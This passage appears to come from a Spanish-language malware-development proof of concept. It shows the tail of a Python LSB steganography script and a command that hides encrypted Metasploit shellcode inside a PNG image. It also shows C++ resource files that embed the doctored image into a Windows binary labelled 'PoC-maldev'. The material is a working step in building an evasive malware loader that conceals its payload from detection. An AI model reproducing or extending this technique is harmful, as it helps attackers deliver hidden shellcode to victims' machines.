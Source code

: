 ```python
	hidden_bits = [hidden_bits[i:i+8] for i in range(0, len(hidden_bits), 8)]
	message = b""
	for i in range(len(hidden_bits)):
		if message[-16:] == b"$end_of_message$":
			break
		else:
			message += chr(int(hidden_bits[i],2)).encode('latin-1')
	dstFile = open("message.bin", "wb")
	if b"$end_of_message" in message:
		dstFile.write(message[:-16])
		print("\nUnhidden message successfully!\n")
	else:
		print("\nNo Hidden Message Found\n")

if __name__ == "__main__":

	if len(sys.argv) != 5 and len(sys.argv) != 3:
		printHelp()
		sys.exit(1)
	if sys.argv[1] != "-hide" and sys.argv[1] != "-extract":
		printHelp()
		sys.exit(1)
	if sys.argv[1] == "-hide":
		if len(sys.argv) != 5:
			printHelp()
			sys.exit(1)
		hideBits(sys.argv[2], sys.argv[3], sys.argv[4])
	else:
		if len(sys.argv) != 3:
			printHelp()
			sys.exit(1)
		extract(sys.argv[2])
```

- Concatenacion de shellcode de metasploit en el archivo imagen .png
```bash
python3 lsb.py -hide pornhub.png encrypted.bin pornhublsb.png
```

- Desactivamos el entorno virtual de Python
```bash
deactivate
```

- Script PoC-maldev/resources.h
```cpp
#define MY_ICON 200
```

- Script PoC-maldev/resources.rc
```cpp
#include "resources.h"

MY_ICON RCDATA pornhublsb.png
```
